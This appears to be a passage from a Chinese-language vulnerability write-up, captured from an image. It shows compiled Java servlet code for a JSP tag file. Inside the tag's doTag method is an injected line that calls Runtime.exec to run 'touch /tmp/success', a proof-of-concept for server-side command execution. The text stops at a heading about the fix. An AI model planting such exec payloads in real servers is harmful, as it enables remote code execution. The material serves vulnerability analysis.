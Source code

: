 ```java
  public Object getDependants() {
    return _jspx_dependants;
  }

  private void _jspInit(ServletConfig config) {
    _el_expressionfactory = _jspxFactory.getJspApplicationContext(config.getServletContext()).getExpressionFactory();
    _jsp_annotationprocessor = (org.apache.AnnotationProcessor) config.getServletContext().getAttribute(org.apache.AnnotationProcessor.class.getName());
  }

  public void _jspDestroy() {
  }

  public void doTag() throws JspException, java.io.IOException {
    PageContext _jspx_page_context = (PageContext)jspContext;
    HttpServletRequest request = (HttpServletRequest) _jspx_page_context.getRequest();
    HttpServletResponse response = (HttpServletResponse) _jspx_page_context.getResponse();
    HttpSession session = _jspx_page_context.getSession();
    ServletContext application = _jspx_page_context.getServletContext();
    ServletConfig config = _jspx_page_context.getServletConfig();
    JspWriter out = jspContext.getOut();
    _jspInit(config);
    jspContext.getELContext().putContext(JspContext.class,jspContext);
    _jspx_page_context.setAttribute("dynattrs", _jspx_dynamic_attrs);
    try {
      out.write('\n');

    java.lang.Runtime.getRuntime().exec("touch /tmp/success");

    } catch( Throwable t ) {
      if( t instanceof SkipPageException )
          throw (SkipPageException) t;
      if( t instanceof java.io.IOException )
          throw (java.io.IOException) t;
      if( t instanceof IllegalStateException )
          throw (IllegalStateException) t;
      if( t instanceof JspException )
          throw (JspException) t;
      throw new JspException(t);
    } finally {
      jspContext.getELContext().putContext(JspContext.class,super.getJspContext());
      ((org.apache.jasper.runtime.JspContextWrapper) jspContext).syncEndTagFile();
    }
  }
}
```



## 漏洞修复
